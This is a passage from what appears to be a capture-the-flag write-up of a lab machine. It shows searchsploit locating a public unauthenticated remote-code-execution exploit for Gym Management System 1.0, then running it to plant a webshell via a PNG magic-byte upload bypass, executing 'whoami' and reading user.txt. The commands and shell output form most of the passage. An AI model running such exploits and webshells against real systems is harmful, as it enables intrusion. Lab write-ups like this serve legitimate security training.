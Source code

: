 
    root@kali# searchsploit gym management
    --------------------------------------------------------------------- ---------------------------------
     Exploit Title                                                       |  Path
    --------------------------------------------------------------------- ---------------------------------
    Gym Management System 1.0 - Unauthenticated Remote Code Execution    | php/webapps/48506.py
    --------------------------------------------------------------------- ---------------------------------
    Shellcodes: No Results
    Papers: No Results



## Shell as shaun

### POC Shell

I'll grab a copy of the exploit using
`searchploit -m php/webapps/48506.py` (and I like to rename it something
more descriptive, like `gym_management_rce.py`). I took a look at the
script, and it looks like it bypasses filters to upload a webshell, and
then runs an infinite loop getting commands from the user, submitting
them to the webshell, parsing the results, and printing them.

It uses `print "string"` syntax, so it must be legacy Python. Still, the
script works pretty well, at least to get a foothold:



    root@kali# python gym_management_rce.py http://10.10.10.198:8080/
                /\
    /vvvvvvvvvvvv \--------------------------------------,
    `^^^^^^^^^^^^ /============BOKU====================="
                \/

    [+] Successfully connected to webshell.
    C:\xampp\htdocs\gym\upload> whoami
    �PNG

    buff\shaun

    C:\xampp\htdocs\gym\upload>



You can see that each response starts with the magic bytes for a PNG
image file, which is part of the upload filter bypass. I'll look at the
exploit more in Beyond Root.

Because the script is just sending requests to the simple webshell,
there's no state, so I can't change directories. I can still get
`user.txt` from here:



    C:\xampp\htdocs\gym\upload> type \users\shaun\desktop\user.txt
    �PNG
